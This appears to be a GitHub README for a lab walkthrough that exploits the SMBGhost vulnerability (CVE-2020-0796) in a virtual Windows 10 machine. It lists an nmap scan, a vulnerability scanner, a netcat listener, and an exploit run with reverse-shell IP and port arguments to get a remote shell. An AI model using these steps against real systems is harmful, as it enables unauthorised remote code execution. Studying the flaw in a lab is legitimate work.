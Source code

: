 # README

# Author **Abdullah Iqbal**

Install **windows 10 version 1903** on a virtual machine.

Run both kali and win 10 on the same **Nat network**.

Scan the windows using the nmap on kali to see which ports are open on the virtual windows.
    1. `sudo nmap -sS <Ip address>`
    2. We can see that port **445** is open, that what we need.

On kali terminal clone the GitHub repository and run the script file to see weather the install windows version is vulnerable or not using the python script.
    1. Git clone https://github.com/abdullah098/CVE_2020_0796
    2. `Python3 Scanner.py <Ip address>`
 
    If the terminal shows **Vulnerable** then the installed version of win 10 is vulnerable, otherwise, start from step 1 again. 
 
Run offsets.bat on the target machine to get the offset of windows and replace the offset that you get from windows into the CVE_2020_0796.py file.
 
Now we must make a listening port on the kali so that we can listen to the incoming communication.
    1. `nc -lvp <port number>`
 
Now we have to run the SMBleedingGhost.py file using the command.
    1. `CVE_2020_0796.py <target ip> <reverse_shell_ip> <reverse_shell_port>`
    2. We will receive an error after this step because of **windll**. This occurs because kali doesn’t have any windll file.
 
Make another win 10 Virtual machine and run it on same **NAT networ**. 

Then we will run the exploit on that machine and will redirect that to the kali listening port we started at step 7.
    1. Start Win 10 on same NAT network
    2. Install python
    3. Resetup the offset
    4. Run `CVE_2020_0796.py <target ip> <reverse_shell_ip> <reverse_shell_port>`
